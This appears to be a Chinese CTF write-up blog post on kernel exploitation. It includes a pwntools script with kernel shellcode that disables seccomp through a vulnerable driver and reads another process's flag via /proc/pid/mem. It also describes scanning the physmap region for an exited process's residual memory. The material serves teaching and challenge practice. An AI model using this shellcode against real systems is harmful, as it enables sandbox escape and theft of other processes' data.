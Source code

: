 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "kernel security 3: 利用内核漏洞操纵其他进程"
author: wsxk
date: 2025-10-20
comments: true
---
```


- [1. 前言](#1-前言)
- [2. 子进程存储flag](#2-子进程存储flag)
  - [2.1 解题思路](#21-解题思路)
- [3. 子进程存储flag后退出——physmap](#3-子进程存储flag后退出physmap)
  - [3.1 解体思路](#31-解体思路)


# 1. 前言<br>
遇到了某种特定类型的CTF题目，大意是说，我们只能和父进程交互，但是flag被保留在子进程的内存当中（没有其他地方留存），父进程能够与内核驱动交互。题目的本意是让我们通过驱动的漏洞，让父进程能够偷取子进程的信息，打破进程隔离。<br>
我感觉十分的牛逼，故单开一章用于讲述实际实现和解法。<br>

# 2. 子进程存储flag<br>
代码逻辑如下图所示:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008123352.png)
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008123312.png)
总的来说，父进程创建子进程读取flag文件的内容后，并删除flag文件本身。
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008133555.png)
随后父进程开启seccomp，只允许write执行，并允许我们输入shellcode<br>
有问题的驱动程序代码如下:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008133635.png)

## 2.1 解题思路<br>
1. 首先还是利用内核漏洞，解除`seccomp`机制。<br>
2. 随后，确定子进程的pid后，用`open`函数打开`/proc/pid/mem`。
3. `fseek`文件描述符到`0x404040`（flag的存放位置处）
4. `read`函数读取flag内容并打印

```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'

escape_seccomp_shellcode = """
mov    rax,QWORD PTR gs:0x15d00
and    QWORD PTR [rax],0xfffffffffffffeff
ret
"""

execute_shellcode = f"""
/*write escape_seccomp_shellcode into kernel_module*/
mov rax, SYS_write
mov rdi, 3   /*目标程序打开的驱动文件描述符*/
lea rsi, [rip+escape_seccomp_shellcode]
mov rdx, {len(asm(escape_seccomp_shellcode))}
syscall 

/*open file*/
mov rax, SYS_open
lea rdi, [rip+file_name]
mov rsi, O_RDONLY
mov rdx, 511
syscall

/*fseek*/
mov rdi, rax
mov rsi, 0x404040 /*flag存放的虚拟地址*/
mov rdx, SEEK_SET
mov rax, SYS_lseek
syscall

/*fread*/
lea rsi, [rip+buffer]
mov rdx,0x200
mov rax, SYS_read
syscall

/*fwrite*/
mov rdi, 1 #out_fd
lea rsi, [rip+buffer]
mov rdx, 0x200
mov rax, SYS_write
syscall

mov rax, SYS_exit
syscall

escape_seccomp_shellcode:
{escape_seccomp_shellcode}

.align 8
file_name:
.string "/proc/166/mem"
.align 8
buffer:
.space 0x200
"""

bytes_io = asm(execute_shellcode)
f = open("./shellcode.bin","wb")
f.write(bytes_io)
f.close()
```


# 3. 子进程存储flag后退出——physmap<br>
这道题跟#2的题目非常类似，唯一有区别的点在于:**子进程在加载flag后，没有一直循环等待，而是直接退出**<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251010213236.png)
这道题利用到的是linux内核中的`physmap`机制。<br>
**`physmap`的核心是：内核空间维护了一段虚拟地址，以ffff888000000000起始，这个地址与机器实际拥有的物理地址空间是一一映射关系。也就是说，如果你直接通过这段地址中读取内容，等于直接从物理内存里读内容**<br>
这里又涉及到另一点，进程销毁后，其内容还保留在物理内存当中；此时你如果不做其他的申请内存的操作，那么内容所处的空间就不会被占用，继而一直存在！<br>


## 3.1 解体思路<br>
这道题目flag还是存储在`0x404040`地址处，即某个page的0x40位置。<br>
尝试遍历内核地址空间的`physmap`区域每个page的0x40地址开头的值是否是`pwn`，是的话将其打印出来即可。<br>



<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>